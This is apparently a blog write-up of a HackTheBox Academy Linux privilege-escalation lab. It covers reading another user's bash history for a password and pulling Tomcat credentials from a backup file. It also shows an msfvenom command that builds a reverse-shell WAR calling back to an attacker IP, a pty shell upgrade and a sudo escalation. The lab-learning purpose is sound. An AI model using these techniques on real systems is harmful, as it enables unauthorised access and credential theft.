

<html>
  <head>
    <link rel="icon" href="/assets/imgs/beans.png" type="image/png">
  </head>
  
</html>

[Main Page](/index)

# Local Privilege Escalation

This is the skills assessment for the Linux Local Privilege Escalation module on HackTheBox Academy! Let’s get cracking.

---

First let’s login to ssh with the provided creds for `htb-student`

```bash
htb-student@nix03:~$ ls -la                                                                                             
total 32
drwxr-xr-x 4 htb-student htb-student 4096 Sep  6  2020 .
drwxr-xr-x 5 root        root        4096 Sep  6  2020 ..
-rw------- 1 htb-student htb-student   57 Sep  6  2020 .bash_history
-rw-r--r-- 1 htb-student htb-student  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 htb-student htb-student 3771 Feb 25  2020 .bashrc
drwx------ 2 htb-student htb-student 4096 Sep  6  2020 .cache
drwxr-xr-x 2 root        root        4096 Sep  6  2020 .config
-rw-r--r-- 1 htb-student htb-student  807 Feb 25  2020 .profile
htb-student@nix03:~$ cd .config
```

We can see an interesting `.config` folder in our home

```bash
htb-student@nix03:~/.config$ ls -la                                                                                     
total 12
drwxr-xr-x 2 root        root        4096 Sep  6  2020 .
drwxr-xr-x 4 htb-student htb-student 4096 Sep  6  2020 ..
-rw-r--r-- 1 htb-student www-data      33 Sep  6  2020 .flag1.txt
htb-student@nix03:~/.config$ cat .flag1.txt                                                                             
LLPE{d0n_ov3rl00k_h1dden_f1les!}
```

Found flag 1!

To find flag 2 I simply searched for it using the `find` command

```bash
htb-student@nix03:~$ find / -name flag2.txt 2>/dev/null
/home/barry/flag2.txt
```

It lies in `barry`'s home directory which means we need to do some lateral movement. If we search for all the `.bash_history` files we can see that barry’s is readable to us!



And, unfortunately for him, he passed an ssh password via command-line!

We can switch users by either logging back in through ssh or using the `su barry` command.

```bash
barry@nix03:/var/log$ id                                                                                                
uid=1001(barry) gid=1001(barry) groups=1001(barry),4(adm)
```

Looks like barry is in the `adm` group, meaning we can read system logs in `/var/log` 

I assumed the flag was somewhere in a log file, so I ran this command to search through all of them:

```bash
cd /var/log
grep -r LLPE{
```

Turns out the flag was just in the `flag3.txt` file


Once here I got a little stuck, but decided to take a step back and re-enumerate. I started with an nmap scan!

```
# Nmap 7.94SVN scan initiated Sun Apr 13 21:06:29 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -p22,80,8080,33060 -oN nmap.initial 10.129.221.220
Nmap scan report for 10.129.221.220
Host is up (0.061s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:e8:7a:9d:bb:13:bb:94:db:5e:91:0b:46:e0:0a:6f (RSA)
|   256 b2:75:97:8c:4b:01:bc:5b:20:46:29:73:61:40:42:1e (ECDSA)
|_  256 33:89:87:4a:65:8d:f9:85:e1:f2:06:ab:71:fb:cb:23 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Inlane Freight
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp  open  http    Apache Tomcat
|_http-title: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
33060/tcp open  mysqlx?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=4/13%Time=67FC5FA2%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 13 21:09:26 2025 -- 1 IP address (1 host up) scanned in 176.63 seconds

```

Looks like we have two http servers and possibly a mysql server. Looking at the `Apache Tomcat` page:


Here it tells us what directory the Tomcat service is running out of, `/var/lib/tomcat9/`. Let’s go back to Barry’s account and see if we can find anything.


After digging around we can see the `tomcat-users.xml` file on the `conf` directory which is unreadable to us, however we can read the backup file! We also could’ve found this by using the find command:

```bash
find / -type f -name *.bak -exec ls -l {} \; 2>/dev/null
```


And we got the login credentials! Now we can login to the Tomcat admin page.

```
tomcatadm : T0mc@t_s3cret_p@ss!
```


From here we can upload and deploy a `war` file. We can craft a reverse shell payload using `msfvenom`:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.207 LPORT=4444 -f war > shell.war
```

We can see it on the admin page:


And I simply started a listener, and clicked on the shell link:


And boom! We are the `tomcat` user on the box! I then upgraded my shell using python

```python
python3 -c "import pty; pty.spawn('/bin/bash')"
```

And grabbed flag 4

```bash
tomcat@nix03:/var/lib/tomcat9$ cat flag4.txt
cat flag4.txt
LLPE{im_th3_m@nag3r_n0w}
```

And checked if we can run any sudo commads without a password:


We can! `busctl` has a gtfobin.


And using this we can escalate to the root user:


Nice! That was the box. All in all it was a fun challenge.

Thanks for reading! Cheets
